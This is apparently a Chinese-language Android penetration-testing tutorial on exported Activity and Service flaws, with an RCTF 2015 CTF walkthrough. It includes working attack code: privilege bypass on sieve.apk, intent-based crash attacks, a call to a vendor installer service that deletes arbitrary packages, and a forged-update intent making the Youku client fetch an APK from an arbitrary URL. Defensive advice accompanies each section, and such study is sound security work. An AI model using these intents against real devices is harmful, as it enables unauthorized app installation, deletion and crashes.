


# android app渗透测试-Activity、Service

* [android app渗透测试\-Activity、Service](#android-app渗透测试-activityservice)
  * [获取apk源代码](#获取apk源代码)
    * [vdexExtrator使用](#vdexextrator使用)
  * [观察清单文件](#观察清单文件)
  * [Activity漏洞挖掘](#activity漏洞挖掘)
    * [Activity越权漏洞示例](#activity越权漏洞示例)
      * [应用正常交互流程](#应用正常交互流程)
      * [JEB反编译查看攻击面](#jeb反编译查看攻击面)
      * [实现越权绕过](#实现越权绕过)
      * [防护策略](#防护策略)
    * [Activity拒绝服务攻击](#activity拒绝服务攻击)
      * [NullPointerException](#nullpointerexception)
      * [ClassCastException示例](#classcastexception示例)
      * [IndexOutOfBoundsException](#indexoutofboundsexception)
      * [ClassNotFoundException](#classnotfoundexception)
      * [防护策略](#防护策略-1)
    * [Activity劫持](#activity劫持)
  * [Service漏洞挖掘](#service漏洞挖掘)
    * [Service非授权访问](#service非授权访问)
    * [Service消息伪造](#service消息伪造)
    * [Service拒绝服务](#service拒绝服务)
    * [防护原理](#防护原理)
  * [CTF实例](#ctf实例)
    * [程序运行](#程序运行)
    * [攻击面确定](#攻击面确定)
    * [静态逆向分析](#静态逆向分析)
      * [WebActivity](#webactivity)
      * [MiscService](#miscservice)
      * [CoreService](#coreservice)
      * [总结](#总结)
    * [POC编写](#poc编写)
      * [清单文件添加访问权限](#清单文件添加访问权限)
      * [AIDL绑定CoreService](#aidl绑定coreservice)
      * [运行app获取key和iv](#运行app获取key和iv)
      * [通过MiscService启动WebActivity](#通过miscservice启动webactivity)
      * [最终效果](#最终效果)

Android App中可能出现的安全漏洞的类型：

1. 协议——通信协议（本地、网络），协议大部分是由C/C++实现，存在以下安全问题：通信数据引发的**逻辑漏洞**；通信数据引发的**缓冲区溢出**等可能导致**远程代码执行**/**拒绝服务**的代码漏洞。
2. 组件安全——Activity，Service服务，Content Provider内容提供者，BroadcastReceiver广播接收器中可能存在的安全问题，其中最主要的就是**intent**组件通信导致的**拒绝服务**/**越权**漏洞。
3. 开放端口——可通过命令查看各APP运行时存在的开放端口，然后去逆向分析APP查看其在此开放端口上进行的操作，从而找寻可能的漏洞。
4. IPC（进程间通信）安全——同1。
5. 文件读写安全/数据加密安全——Android平台上的隐私泄露也是一个值得关注的攻击面。


[思维导图来源](https://ayesawyer.github.io/2019/08/21/Android-App%E5%B8%B8%E8%A7%81%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/)

## 获取apk源代码

通过adb获取android系统应用或者第三方app：

```
adb shell pm path app包名
adb pull apk路径
```

如果是系统应用，可能因为优化，源代码不在apk文件，而是在**vdex**文件中：

- vdex是dex代码直接转化的可执行二进制码文件
- 第一次开机就会生成在`/system/app/<packagename>/oat/`下；
- 在系统运行过程中，虚拟机将其从 `/system/app` 下copy到`/data/davilk-cache/` 下
- 通过**vdexExtrator**可以将vdex转成dex，然后继续进行分析

[关于vdex更多知识](https://blog.csdn.net/TaylorPotter/article/details/89855346)

例子：

下图是Genymotion模拟器中蓝牙系统应用的vdex文件路径，比一般的安卓系统相比把arm换成了x86


拉取vdex到本地：


### vdexExtrator使用

在kali里面安装编译[vdexExtrator](https://github.com/anestisb/vdexExtractor.git)中的工具，转化vdex为dex，下图适用于Android9以上的情况




将Bluetooth.apk拖入JEB中查看Manifest文件：


将Bluetooth.dex拖入JEB中查看源码：


## 观察清单文件

这些组件会在apk的AndroidManifest.xml中声明，需要重点关注**可导出**的组件：

- 具备**exported=true**属性的组件
- 配置了**intent-filter**的**service**默认是可导出的

这些组件会直接对外提供服务，容易直接受到攻击

- 要重点看这些组件的**permission**，是否第三方app可调用，还是仅系统进程可调用
- 如果没对调用进行权限限制或者是没有对调用者的身份进行有效的验证，那么恶意构造的APP都可以**传入恰当的参数进行调用**，导致恶意的行为发生，比如说调用具有system权限的删除卸载服务删除卸载其他应用

防护方面可以将`android:protectionLevel`从normal提升到dangerous、signature，[组件权限设置参考](https://developer.android.com/training/articles/security-tips)

## Activity漏洞挖掘

### Activity越权漏洞示例

例子：sieve.apk

[例子下载以及相关知识详见](https://bbs.pediy.com/thread-269211.htm)

#### 应用正常交互流程

Genymotion打开应用，交互顺序如下：

首先要求输入密码：


在提交password之后，再输入pin：


然后要求输入刚才的密码：


点击登录后，可进入“Your Passwords”页面：


#### JEB反编译查看攻击面

可以知道包名为com.mwr.example.sieve

可以看到除了启动activity之外，还有两个activity导出为true


#### 实现越权绕过

使用adroid studio编写testseive应用，直接调用导出activity，实现越权绕过

```java
// 要调用的包名
String mPackageName="com.mwr.example.sieve";
// 要调用的activity
String mActivityName="com.mwr.example.sieve.PWList";
Intent intent=new Intent();
intent.setComponent(new ComponentName(mPackageName,mActivityName));
// 启动intent
startActivityForResult(intent,1);
```


构建并运行testseive应用，可以看到能够直接进入“Your Passwords”页面，实现越权绕过


#### 防护策略

- 私有Activity不应被其他应用启动，创建activity时，设置exported属性为false
- 公开暴露的Activity组件，可以被任意应用启动，需要谨慎处理接收的Intent，不应发送敏感信息，收到返回数据谨慎处理

### Activity拒绝服务攻击

[参考链接](https://segmentfault.com/a/1190000002590573)

#### NullPointerException

源于程序没有对getAction()等获取到的数据进行**空指针判断**，从而导致空指针异常而导致应用崩溃

漏洞应用代码片段：

```java
Intent i = new Intent();
if (i.getAction().equals("TestForNullPointerException")) {
    Log.d("TAG", "Test for Android Refuse Service Bug");
}
```

攻击应用代码片段：

不提供action，直接启动activity就可以导致崩溃

```stylus
adb shell am start -n com.alibaba.jaq.pocforrefuseservice/.MainActivity
```

#### ClassCastException示例

源于程序没有对 getSerializableExtra() 等获取到的数据进行**类型判断**而进行强制类型转换，从而导致类型转换异常而导致应用崩溃

漏洞应用代码片段：

```java
Intent i = getIntent();
String test = (String)i.getSerializableExtra("serializable_key");
```

攻击应用代码片段：

```java
Intent i = new Intent();
i.setClassName("com.example.unsafe", "com.example.unsafe.MainActivity");
i.putExtra("serializable_key", BigInteger.valueOf(1));
startActivity(i);
```

先启动漏洞app，再启动攻击app，漏洞app就会crash：



可以看到android studio中的类型转换报错：


#### IndexOutOfBoundsException

源于程序没有对 getIntegerArrayListExtra() 等获取到的数据**数组元素大小**的判断，从而导致数组访问越界而导致应用崩溃

漏洞应用代码片段：

```java
Intent intent = getIntent();
ArrayList<Integer> intArray = intent.getIntegerArrayListExtra("user_id");
if (intArray != null) {
    // 没有对intArray大小进行检验
    for (int i = 0; i<10; i++) {
        intArray.get(i);
    }
}
```

攻击应用代码片段：

```java
Intent i = new Intent();
i.setClassName("com.example.unsafe", "com.example.unsafe.MainActivity");
ArrayList<Integer> user_id = new ArrayList<Integer>();
i.putExtra("user_id", user_id);
startActivity(i);
```

android studio报错：


#### ClassNotFoundException

源于程序没有无法找到从 getSerializableExtra() 获取到的序列化类对象的类定义，因此发生类未定义的异常而导致应用崩溃

漏洞应用代码片段：

```java
Intent i = getIntent();
i.getSerializableExtra("serializable_key");
```

攻击应用代码片段：

```java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    Intent i = new Intent();
    i.setClassName("com.example.unsafe", "com.example.unsafe.MainActivity");
    ArrayList<Integer> user_id = new ArrayList<Integer>();
    i.putExtra("serializable_key", new SelfSerializableData());
    startActivity(i);

}

//在这里重新定义了一个类
static  class SelfSerializableData implements Serializable {
    private static final long serialVersionUID = 42L;

    public SelfSerializableData() {
        super();
    }
}
```

android studio部分报错：


#### 防护策略

1. 将不必要的导出的组件设置为不导出
2. 建议intent处理数据时进行**捕获异常**。处理通过 Intent.getXXXExtra() 获取的数据时进行以下判断，以及用 try catch 方式进行捕获所有异常，以防止应用出现拒绝服务漏洞：
   - 空指针异常；
   - 类型转换异常；
   - 数组越界访问异常；
   - 类未定义异常；
   - 其他异常；

### Activity劫持

对手拦截发送来启动一个基于android的可信活动的隐式intent，并在其位置启动一个假冒活动。然后，恶意活动被用来模拟受信任活动的用户界面，并提示目标输入敏感数据，就像目标正在与受信任活动交互一样。

## Service漏洞挖掘

[参考链接](https://bbs.pediy.com/thread-269255.htm)

### Service非授权访问

导出的service未进行权限设置和调用者身份验证，使得调用者通过调用该service实现非授权访问或权限提升。

[漏洞案例](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2010-0509)

乐phone手机出厂默认包含一个名为jp.aplix.midp.tools的**应用包**。本应用以system权限运行，并向其他应用提供ApkInstaller服务，用来进行对Apk文件的安装和删除。通过向ApkInstaller服务传递构造好的参数，没有声明任何权限的应用即可达到安装和删除任意Package的行为，对系统安全性产生极大影响。

攻击代码：

```java
Intent in = new Intent();
in.setComponent(new ComponentName("jp.aplix.midp.tools","jp.aplix.midp.tools.ApkInstaller"));
in.putExtra("action", "deleteApk");
in.putExtra("pkgName", "xxxxx");
startService(in);
```

### Service消息伪造

service未对intent中的数据进行充分检查，导致接收伪造的恶意消息

[漏洞案例](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-094635)

优酷Android 4.5客户端组件暴露导致第三方应用可以触发其升级过程，同时可以指定升级下载的URL地址，可导致任意应用安装！

组件com.youku.service.push.StartActivityService声明如下，对外暴露：

```xml
<service
    android:label="Youku Push Notifications StartActivityService"
    android:name="com.youku.service.push.StartActivityService"
    android:exported="true"
>
```

该组件对应的代码执行部分如下：

```java
protected void onHandleIntent(Intent intent) {
        Intent v0;
        String v23;
    	// 获取pushMsg数据
        Serializable pushMsg = intent.getSerializableExtra("PushMsg");
        ......
        AppVersionManager.getInstance(Youku.context).showAppAgreementDialog();
    	// 根据pushMsg.type判断执行流程
        switch(pushMsg.type) {
            case 1: {
                goto label_53;
            }
            ......
        }
        ......
    label_53:
        intent.setFlags(876609536);
        intent.setClass(this, UpdateActivity.class);
    	// 从pushMsg.updateurl中获取升级URL
        intent.putExtra("updateurl", pushMsg.updateurl);
        intent.putExtra("updateversion", pushMsg.updateversion);
        intent.putExtra("updatecontent", pushMsg.updatecontent);
        intent.putExtra("updateType", 2);
        this.startActivity(intent);
        return;
    ......
```

该组件从Intent从获取名为PushMsg的Serializable的数据，并根据其成员type来执行不同的流程，当type值为1时，执行App的升级操作。升级所需的相关数据如app的下载地址等也是从该序列化数据中获取。升级的具体流程在com.youku.ui.activity.UpdateActivity中，简单分析后发现升级过程**未对下载地址等进行判断**，因此可以**任意指定**该地址。

攻击代码：

该漏洞触发的关键在于对PushMsg数据的控制，创建一个Android App程序，在主Activity中的关键代码如下：

```java
PushMsg pushMsg = new PushMsg();
pushMsg.type = 1;
pushMsg.updateurl = "http://任意URL/test.apk";
pushMsg.updatecontent = "This is Fake";
		
Intent intent = new Intent();
intent.setClassName("com.youku.phone","com.youku.service.push.StartActivityService");
intent.putExtra("PushMsg", pushMsg);
startService(intent);
```

其中PushMsg类不需要完整实现，只需要编译通过即可；
反编译优酷客户端的App得到smali代码，从中提取出PushMsg.smali；
反编译上述创建的APK文件，将原PushMsg类的smali文件替换为优酷中的PushMsg.smali文件，重新打包签名；
安装并运行重打包后的APK，会看到优酷的升级页面触发，如果设计的好的话，是可以诱导用户安装攻击者指定的APK文件的。

### Service拒绝服务

service未对接收的intent中的数据进行异常处理，导致程序崩溃。

### 防护原理

- 私有service不定义intent-filter并且设置exported为false
- 合作service需对合作方的app签名做校验
- 只被应用本身使用的service应设置为私有
- 不应在service创建（onCreate方法被调用）的时候决定是否提供服务，应在onStartCommand/onBind/onHandleIntent等方法被调用时做判断
- 内部service需要使用签名级别的protectionLevel来判断是否被内部应用调用
- service接收的数据需要谨慎处理

其他参考链接：

https://tea9.xyz/post/3182197634.html

https://ayesawyer.github.io/2019/08/21/Android-App%E5%B8%B8%E8%A7%81%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/

## CTF实例

[参考链接1](https://bbs.pediy.com/thread-261854.htm)

[参考链接2](https://www.anquanke.com/post/id/82944)

来源：RCTF 2015 Mobile350-Load

描述：This APK has a vulnerability,Can you load the flag? Try it.WaWaWa_0bb98521a9f21cc3672774cfec9c7140

### 程序运行


### 攻击面确定

通过JEB查看清单文件，有1个Activity，2个Service（其中CoreService是normal权限），1个BroadcastReciver外部可访问且没有进行权限设置


还有一个外部不可访问的WebActivity

### 静态逆向分析

先分析MainActivity，没什么东西

#### WebActivity

然后分析WebActivity，发现它能够利用WebView加载flag

首先用intent根据"KEY"获取序列化数据v0，然后分别调用a()、b()、c()函数，返回值分别对应v1、v2、loading


看一下里面的b类，调用a()、b()、c()函数会分别返回b.b、b.c、b.d


注意到WebActivity中黄色框圈起的代码中，还有a.a，里面是密文xHLK4mR+0huhd6YSEc5Qzh+/yEZ7Vqs4PLKJ3cv3dPUQO7xLZCX731yPvd2V1mS0XXtIVgNisRw=：


#### MiscService

分析MiscService，它里面有一个intent，获取类名CLASS_NAME后，可以给某个类发送消息


#### CoreService

分析coreservice，可以看到有暴露的aidl接口，连上这个binder就可以获得this.a的数据


因为this.a属于b类，那么点进去看b类的设计，b类中应用了Load类中的getUrl、getToken、getIv函数，其中b.a()返回的是c(Load.getUrl(this.a), Load.getToken(this.a)).a()，b.b()返回的是null，b.c()返回的是iv值


观察v0所属的c类，并继续分析com.example.wawawa.b.c，可以发现是在访问网址请求数据：根据输入的Load的native函数getUrl以及getToken，获取vps-url以及token参数，post到vps-url，若token正确即可获取key


在Load类中，可以看到这些函数都是在so库中实现的，考虑到有上面暴露的接口，就不选择用so库逆向的方式解题：


#### 总结

为加载flag，WebActivity需要被启动，同时获得KEY作为序列化输入

- 启动WebActivity需要：给MiscService传递WebActivity的类名
- 获得KEY需要：
  - KEY是com.example.wawawa.a.b类型，包含3个属性，在WebActivity分别为v1、v2、loading
    - v1是key，可以通过CoreService的binder的a()方法获得
    - v2是iv，可以通过CoreService的binder的c()方法获得

所以获取flag的步骤为：

1. 通过AIDL绑定CoreService进行访问，获取WebActivity中加密函数使用的key和iv
2. 通过MiscService暴露出来的next_intent，模拟intent运行WebActivity获得flag

### POC编写

新建android app工程

#### 清单文件添加访问权限

添加访问权限（MiscService未添加权限要求，不用声明）：

```xml
<uses-permission android:name="com.example.wawawa.permission.CORE_SERVICE"/>
```


#### AIDL绑定CoreService

MainActivity中主要代码

```java
import com.example.wawawa.d;


public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        try {
            // 调用CoreService的binder
            ComponentName com = new ComponentName("com.example.wawawa", "com.example.wawawa.CoreService");
            Intent intent = new Intent();
            intent.setComponent(com);
            // Intent service, ServiceConnection conn, int flags
            bindService(intent, connD, Context.BIND_AUTO_CREATE);
        } catch (Exception e) {
        }
    }

    private d da;
    private ServiceConnection connD = new ServiceConnection() {
        @Override
        public void onServiceConnected(ComponentName name, IBinder service) {
            // 调用Stub类的客户端接口方法获取服务端数据
            da = d.a.a(service);
            try {
                System.out.println("c() Load.getIv------------- " + da.c()); //返回iv
                System.out.println("a() Load.getkey------------- " + da.a()); //返回key
            } catch (RemoteException e) {
                e.printStackTrace();
            }
        }

        @Override
        public void onServiceDisconnected(ComponentName name) {
            // TODO Auto-generated method stub
        }
    };
}
```

创建com.example.wawawa.d类提供接口定义，可以直接复制load apk中该类的反编译结果并进行微调：


```java
package com.example.wawawa;

import android.os.Binder;
import android.os.IBinder;
import android.os.IInterface;
import android.os.Parcel;
import android.os.RemoteException;

public interface d extends IInterface {

    public static abstract class a extends Binder implements d {

        /* renamed from: a reason: collision with root package name */
        private static final String f418a = "com.example.wawawa.d";
        static final int b = 1;
        static final int c = 2;
        static final int d = 3;

        /* renamed from: com.example.wawawa.d$a$a reason: collision with other inner class name */
        private static class C0016a implements d {

            /* renamed from: a reason: collision with root package name */
            private IBinder f419a;

            C0016a(IBinder iBinder) {
                this.f419a = iBinder;
            }

            public IBinder asBinder() {
                return this.f419a;
            }

            public String d() {
                return a.f418a;
            }

            public String a() throws RemoteException {
                Parcel obtain = Parcel.obtain();
                Parcel obtain2 = Parcel.obtain();
                try {
                    obtain.writeInterfaceToken(a.f418a);
                    this.f419a.transact(1, obtain, obtain2, 0);
                    obtain2.readException();
                    return obtain2.readString();
                } finally {
                    obtain2.recycle();
                    obtain.recycle();
                }
            }

            public String b() throws RemoteException {
                Parcel obtain = Parcel.obtain();
                Parcel obtain2 = Parcel.obtain();
                try {
                    obtain.writeInterfaceToken(a.f418a);
                    this.f419a.transact(2, obtain, obtain2, 0);
                    obtain2.readException();
                    return obtain2.readString();
                } finally {
                    obtain2.recycle();
                    obtain.recycle();
                }
            }

            public String c() throws RemoteException {
                Parcel obtain = Parcel.obtain();
                Parcel obtain2 = Parcel.obtain();
                try {
                    obtain.writeInterfaceToken(a.f418a);
                    this.f419a.transact(3, obtain, obtain2, 0);
                    obtain2.readException();
                    return obtain2.readString();
                } finally {
                    obtain2.recycle();
                    obtain.recycle();
                }
            }
        }

        public a() {
            attachInterface(this, f418a);
        }

        public static d a(IBinder iBinder) {
            if (iBinder == null) {
                return null;
            }
            IInterface queryLocalInterface = iBinder.queryLocalInterface(f418a);
            if (queryLocalInterface == null || !(queryLocalInterface instanceof d)) {
                return new C0016a(iBinder);
            }
            return (d) queryLocalInterface;
        }

        public IBinder asBinder() {
            return this;
        }

        public boolean onTransact(int i, Parcel parcel, Parcel parcel2, int i2) throws RemoteException {
            switch (i) {
                case 1:
                    parcel.enforceInterface(f418a);
                    String a2 = a();
                    parcel2.writeNoException();
                    parcel2.writeString(a2);
                    return true;
                case 2:
                    parcel.enforceInterface(f418a);
                    String b2 = b();
                    parcel2.writeNoException();
                    parcel2.writeString(b2);
                    return true;
                case 3:
                    parcel.enforceInterface(f418a);
                    String c2 = c();
                    parcel2.writeNoException();
                    parcel2.writeString(c2);
                    return true;
                case 1598968902:
                    parcel2.writeString(f418a);
                    return true;
                default:
                    return super.onTransact(i, parcel, parcel2, i2);
            }
        }
    }

    String a() throws RemoteException;

    String b() throws RemoteException;

    String c() throws RemoteException;
}
```

#### 运行app获取key和iv

因为远程vps连不上的，所以无法获取key值，可以知道iv值是12345678


#### 通过MiscService启动WebActivity

在testwawawa的MainActivity中添加以下代码：

```java
import com.example.wawawa.a.b;

protected void onCreate(Bundle savedInstanceState) {
    	...
		ComponentName com = new ComponentName("com.example.wawawa", "com.example.wawawa.MiscService");
        Intent intent1 = new Intent();
        intent1.setComponent(com);
        intent1.putExtra("CLASS_NAME","com.example.wawawa.WebActivity");
        intent1.putExtra("KEY", new b("xxxxxxxx","12345678","loading"));
        startService(intent1);
}
```

添加com.example.wawawa.a.b类，可以直接复制load apk中该类的反编译结果


```java
package com.example.wawawa.a;
import java.io.Serializable;

/* compiled from: Data */
public class b implements Serializable {

    /* renamed from: a reason: collision with root package name */
    private static final long f412a = -3601187837704976264L;
    private String b;
    private String c;
    private String d;

    public b(String str, String str2, String str3) {
        this.b = str;
        this.c = str2;
        this.d = str3;
    }

    public String a() {
        return this.b;
    }

    public String b() {
        return this.c;
    }

    public String c() {
        return this.d;
    }
}
```

#### 最终效果

再次运行testwawawa，可以看到wawawa中能够显示flag loading：


然后尝试展示flag，但因为key是错误的，vps也已关闭，所以无法显示flag：


